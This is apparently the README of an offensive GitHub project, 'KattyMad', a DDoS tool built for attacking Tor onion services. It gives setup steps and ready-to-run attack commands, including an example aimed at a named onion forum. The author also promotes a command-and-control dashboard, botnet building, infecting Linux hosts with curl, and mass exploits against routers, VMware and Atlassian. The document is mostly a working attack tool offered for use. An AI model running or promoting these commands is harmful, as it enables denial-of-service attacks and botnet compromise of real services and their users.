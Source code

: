 # Kattymad
# v1.1
KattyMad is a tool designed to install and perform DDoS attacks over the onion protocol.  <br>
I started from a fork of "KARMA" but it was literally unmaintaned and was using old cookies concept and also network stack was performing worstly than expected.
So i started again and this time i found very useful the MHDDoS project. <br>
Im constantly editing this project because the aim is to create mass environments that can easily takeover onion networks.
Please, read the [TODO](TODO.txt) and help me.

(NB. Credits binary code is just a reverse from ascii common text)<br>
![kattymad](https://github.com/electr0lulz/kattymad/blob/e5438634e844787037fc47dc16806fb2bb05bc06/ddos/files/katty_1.png)


## Usage on Linux ##
Requirements:
You must use Python 3.9 or higher

Step:
```
git clone https://github.com/electr0lulz/kattymad
cd kattymad
sudo ./setup.sh
```
## Example
```
Use DDoS Panel   : python3 kitty.py
Use command line : python3 kitty.py <method> <target> <thread> <time>
```

## Pratical Usage on onion services ##
ATM: best methods are stomp+cookies+slow (and connections) i will include here a script call ddos.sh that require only URL+TIMING args.
```
syntax:
python3 katty.py cookie $1 0 256 proxy.txt $PORT $2
example:
python3 katty.py stomp http://cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion/ 0 64 proxy.txt 256 1800 debug
or
./ddos http://cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion/ 60 ##### it means 60 seconds ddos on url of cryptbbtg65gibadeeo2awe3j7s6evg7eklserehqr4w4e2bis5tebid.onion.
```
Where $PORT is a variable editable into your ddos.sh file, usually 80 is the best option. $1 is the url, and $2 is the timing.
About now it's automatically setted up on 256 threads. (connections don't require anything else)
CryptBB is just an onion example. Use your favorite onion url.

Soon i will remove all unused methods from previous forked version, also, you will be able to access to the C2C management where you can add all your katty servers and start attacks with a everyshell together.
Also will spawn a very nice WebDashboard (now coded in PHP, but soon will be ported in golang) where you can manage your C2C, your bots without needs to open shell, have a very easy way to spread your commands with just a "DataDispatch" or to infect other linux-based systems with just a curl, and a web-exploitter based on realtek, dlink and other shitty-router platform (including some mass-exploit made by me for vmware and atlassian) allowing you to have a botnet very quickly.
Very soon multitor version and captcha bypass will be added, even if we are found a lot of problems in solving the dread-based-captcha.
##

## Dashboard Preview
![kattymad](https://github.com/electr0lulz/kattymad/blob/8e178da3c7acf113ee7ed9996bf6c3c1a1133274/dashboard_preview/login_katty.png)
![kattymad](https://github.com/electr0lulz/kattymad/blob/8e178da3c7acf113ee7ed9996bf6c3c1a1133274/dashboard_preview/kattymain.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/8e178da3c7acf113ee7ed9996bf6c3c1a1133274/dashboard_preview/users.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/e5438634e844787037fc47dc16806fb2bb05bc06/ddos/files/web_manager.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/e5438634e844787037fc47dc16806fb2bb05bc06/ddos/files/terminal_commander.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/e5438634e844787037fc47dc16806fb2bb05bc06/ddos/files/katty_servers.jpg)
![kattymad](https://github.com/electr0lulz/kattymad/blob/e5438634e844787037fc47dc16806fb2bb05bc06/ddos/files/autoexploit.png)

## NB.
I wish to remember you all, especially to people who suffer paranoid attacks: this is all opensource code. You can read every fucking single line and see that there's no encoded parameters. So no honeypot, no rat, no fucking bullshit.
See you around.
[Electr0lulz](https://github.com/electr0lulz/)